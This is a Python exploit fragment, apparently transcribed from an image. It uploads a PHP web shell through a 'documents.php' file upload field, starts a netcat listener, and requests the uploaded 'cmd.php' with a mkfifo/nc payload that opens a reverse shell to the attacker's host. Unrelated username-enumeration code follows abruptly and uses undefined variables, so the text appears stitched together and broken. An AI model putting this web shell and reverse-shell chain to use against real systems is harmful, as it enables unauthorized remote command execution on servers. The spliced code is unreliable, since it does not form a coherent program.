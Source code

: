 def exploitation(self):
    payload = """<?php system($_GET['cmd']); ?>"""
    payload2 = """rm+/tmp/f%3bmknod+/tmp/f+p%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+""" + localhost + """+""" + localport + """+>/tmp/f"""

    url = 'http://' + target_ip + ':' + target_port + path
    r = requests.Session()

    print('[*] Resolving URL...')
    r1 = r.get(url + 'documents.php')
    time.sleep(3)

    #Upload the payload file
    print('[*] Uploading the webshell payload...')
    files = {
    'fpic': ('cmd.php', payload + '\n', 'application/x-php'),
    'ftndoc': ('', '', 'application/octet-stream'),
    'ftcdoc': ('', '', 'application/octet-stream'),
    'fdmdoc': ('', '', 'application/octet-stream'),
    'ftcdoc': ('', '', 'application/octet-stream'),
    'fdcdoc': ('', '', 'application/octet-stream'),
    'fide': ('', '', 'application/octet-stream'),
    'fsig': ('', '', 'application/octet-stream'),
    }
    data = {'fpicup':'Submit Query'}
    r2 = r.post(url + 'documents.php', files=files, allow_redirects=True, data=data)
    time.sleep(3)

    print('[*] Setting up netcat listener...')
    listener = subprocess.Popen(["nc", "-nvlp", self.localport])
    time.sleep(3)

    print('[*] Spawning reverse shell...')
    print('[*] Watchout!')
    r3 = r.get(url + '/studentpic/cmd.php?cmd=' + payload2)
    time.sleep(3)

    if (r3.status_code == 200):
        print('[*] Got shell!')
        while True:
            listener.wait()
    else:
        print('[-] Something went wrong!')
        listener.terminate()
    # Enumeration
    total = len(wordlist)
    for counter, user in enumerate(wordlist):
        user_payload = dict(payload_dict)
        for key, value in user_payload.items():
            if value == '{USER}':
                user_payload[key] = user

        dataraw = "".join(['%s=%s&' % (key, value) for (key, value) in user_payload.items()])[:-1]
        headers={"Accept": "*/*" , "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36"}
